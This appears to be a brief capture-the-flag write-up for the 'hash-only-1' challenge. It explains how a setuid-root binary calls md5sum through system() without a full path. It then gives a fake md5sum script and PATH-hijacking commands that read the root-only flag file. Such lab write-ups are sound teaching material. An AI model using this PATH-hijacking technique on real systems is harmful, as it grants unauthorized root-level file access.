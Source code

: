 # hash-only-1

[decompiling](https://dogbolt.org/) the binary gives:

```cpp
setgid(0);
setuid(0);
// ...
system("/bin/bash -c 'md5sum /root/flag.txt'");
```

system() call is made after elevating privileges to root...

Create a malicious `md5sum` script in `/home/ctf-player/`:

```bash
#!/bin/bash
cat "$1"
```

Give permissions, modify PATH and run the binary:

```shell
chmod 777 ./md5sum
export PATH=/home/ctf-player:$PATH
./flaghasher
```
